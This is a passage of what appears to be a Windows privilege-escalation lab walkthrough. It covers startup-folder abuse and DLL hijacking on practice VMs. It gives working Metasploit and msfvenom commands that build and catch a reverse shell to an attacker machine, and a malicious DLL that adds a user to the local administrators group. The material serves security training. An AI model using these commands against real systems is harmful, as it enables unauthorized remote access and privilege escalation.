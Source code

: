 ```
"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

* From the output notice that the `BUILTIN\Users` group has full access `(F)` to the directory.
* Exploitation
* Kali VM
* Open command prompt and type: `msfconsole`
* In Metasploit (msf > prompt) type: `use multi/handler`
* In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp` or `windows/shell_reverse_tcp`
* In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
* In Metasploit (msf > prompt) type: `run`
* Open another command prompt and type: `msfvenom -p windows/shell_reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe`
* Copy the generated file, `x.exe`, to the Windows VM.
* Windows VM
* Place `x.exe` in `"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
* Logoff.
* Login with the administrator account credentials.
* Kali VM
* Wait for a session to be created, it may take a few seconds.
* In Meterpreter(meterpreter > prompt) type: `getuid` or `whoami`
* From the output, notice the user is `User-PC\Admin`

### DLL Hijacking

* Detection
* Windows VM
* Open the Tools folder that is located on the desktop and then go the Process Monitor folder.
* In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time.
* Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on `Procmon.exe` and select `Run as administrator` from the menu.
* In procmon, select `filter`. From the left-most drop down menu, select `Process Name`.
* In the input box on the same line type: `dllhijackservice.exe`
* Make sure the line reads `Process Name is dllhijackservice.exe` then `Include` and click on the `Add` button, then `Apply` and lastly on `OK`.
* Next, select from the left-most drop down menu `Result`.
* In the input box on the same line type: `NAME NOT FOUND`
* Make sure the line reads `Result is NAME NOT FOUND then Include` and click on the `Add` button, then `Apply` and lastly on `OK`.
* Open command prompt and type:

```
sc start dllsvc
```

* Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute `C:\Temp\hijackme.dll` yet it could not do that as the file was not found. Note that `C:\Temp` is a writable location.
* Exploitation
* Windows VM
* Copy `C:\Users\User\Desktop\Tools\Source\windows_dll.c` to the Kali VM.
* Kali VM
* Open `windows_dll.c` in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`
* Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll`
* Copy the generated file `hijackme.dll`, to the Windows VM.
* Windows VM
* Place hijackme.dll in `C:\Temp`.
* Open command prompt and type: `sc stop dllsvc & sc start dllsvc`
* It is possible to confirm that the `user` was added to the `local administrators group` by typing the following in the command prompt: